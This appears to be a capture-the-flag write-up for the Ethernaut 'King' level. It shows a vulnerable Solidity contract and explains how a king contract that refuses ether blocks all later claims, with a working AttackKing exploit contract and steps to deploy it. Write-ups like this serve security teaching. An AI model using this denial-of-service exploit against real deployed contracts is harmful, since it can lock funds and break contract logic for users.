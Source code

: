 ```yaml
---
description: breaking contract logic by not allowing to receive ether
---
```


# 9 - King

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

### Goal of this level

* Break the contract

### What you should know before

* How a contract can receive ether\
  1\. **payable** `fallback()` function\
  2\. `receive()` function\
  \-> see [here](https://youtu.be/qtLI7K1L1bg)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

king variable will never be updated if the previous king refuse to receive ether

</details>

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value); // make it revert here
  king = msg.sender;
  prize = msg.value;
}
```

We will send **`King`** contract the amount of value that is greater or equal to `prize` and do not implement any **method to receive ether**.

Then no matter how much the future player sends to **`King`** contract,\
value of `king` variable never be updated because the transaction will always **revert** when trying to send ether to previous king.

Use Remix IDE!

```solidity
contract AttackKing {
    address king;

    constructor(address _instanceAddr) payable {
        king = _instanceAddr;
    }

    function attack() external {
        (bool success, ) = payable(king).call{value: address(this).balance}("");
        require(success);
    }
}
```

```java
> (await contract.prize()).toString();
'1000000000000000'
```

Deploy **`AttackKing`** contract with `'1000000000000000' wei`\
and call `attack()` function.

Done! 😎

## Key Takeways

* There is 2 ways of receiving ether.\
  1\. payable `fallback()`\
  ``2. `receive()`
